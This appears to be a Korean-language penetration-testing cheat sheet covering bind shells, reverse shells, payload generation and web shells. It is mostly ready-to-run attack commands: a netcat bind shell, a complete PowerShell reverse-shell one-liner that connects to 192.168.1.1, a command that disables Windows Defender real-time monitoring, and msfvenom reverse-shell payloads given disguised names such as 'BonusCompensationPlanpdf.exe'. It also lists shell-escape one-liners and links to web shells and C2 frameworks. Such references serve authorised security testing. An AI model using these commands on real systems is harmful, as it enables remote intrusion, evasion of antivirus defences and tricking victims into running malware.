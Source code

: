 # 1.Bind Shells

### 서버 - Bash 셸을 TCP 세션에 바인딩
```rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 192.168.1.1 7777 > /tmp/f```<br/>
```nc -nv 192.168.1.1 7777```

<br/><br/>
# 2.Reverse Shell

### 클라이언트 - PowerShell을 사용하여 연결
```nc -lvnp 443```<br/>
```powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"```

#### Windows Defender 비활성화(PowerShell 연결 차단될 경우)
```Set-MpPreference -DisableRealtimeMonitoring $true```

<br/><br/>
# 3.Payload

### MSFvenom Payload 제작 (Linux용)
```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > createbackup.elf```

### MSFvenom Payload 제작 (Windows용)
```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > BonusCompensationPlanpdf.exe```

### Search Exploit
```searchsploit 50064.rd```<br/>
경로 출력) ```searchsploit -p 50064.rd```


### Payload 생성 Resource
| **Resource**                            | **설명**                                                                                                                                                                                      |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `MSFVenom & Metasploit-Framework` | [소스](https://github.com/rapid7/metasploit-framework) MSF는 모든 펜테스터 툴킷에 매우 다재다능한 도구입니다. 호스트를 열거하고, 페이로드를 생성하고, 공개 및 사용자 지정 익스플로잇을 활용하고, 호스트에서 익스플로잇 후 작업을 수행하는 방법으로 사용됩니다. 스위스 군용 칼이라고 생각하세요. |
| `Payloads All The Things`         | [소스](https://github.com/swisskyrepo/PayloadsAllTheThings) 여기에서는 페이로드 생성과 일반적인 방법론에 대한 다양한 리소스와 치트 시트를 찾을 수 있습니다.                                                                            |
| `Mythic C2 Framework`             | [소스](https://github.com/its-a-feature/Mythic) Mythic C2 프레임워크는 Metasploit에 대한 대안으로, 고유한 페이로드 생성을 위한 명령 및 제어 프레임워크이자 툴박스입니다.                                                                 |
| `Nishang`                         | [소스](https://github.com/samratashok/nishang) 니샹은 Offensive PowerShell 임플란트와 스크립트의 프레임워크 컬렉션입니다. 여기에는 모든 펜테스터에게 유용할 수 있는 많은 유틸리티가 포함되어 있습니다.                                                 |
| `Darkarmour`                      | [소스](https://github.com/bats3c/darkarmour) Darkarmour는 Windows 호스트를 상대로 사용하기 위해 난독화된 바이너리를 생성하고 활용하는 도구입니다.                                                                                 |

### TTY 쉘 생성
```python -c 'import pty; pty.spawn("/bin/sh")'```

### 대화형 쉘(python 없는 경우)
```/bin/sh -i```<br/>
```perl —e 'exec "/bin/sh";'```<br/>
```perl: exec "/bin/sh";```<br/>
```ruby: exec "/bin/sh"```<br/>
```lua: os.execute('/bin/sh')```<br/>
```awk 'BEGIN {system("/bin/sh")}'```<br/>
```find . -exec /bin/sh \; -quit```<br/>
```vim -c ':!/bin/sh'```

### sudo 권한 확인
```sudo -l```

<br/><br/>
# 4.WebShell

### Laudanum (all)
[Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum) ```/usr/share/laudanum/```

### Antak Webshell (aspx)
[Nishang Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell) ```/usr/share/nishang/Antak-WebShell```

### wwwolf-php-webshell (php)
[WhiteWinterWolf PHP Webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

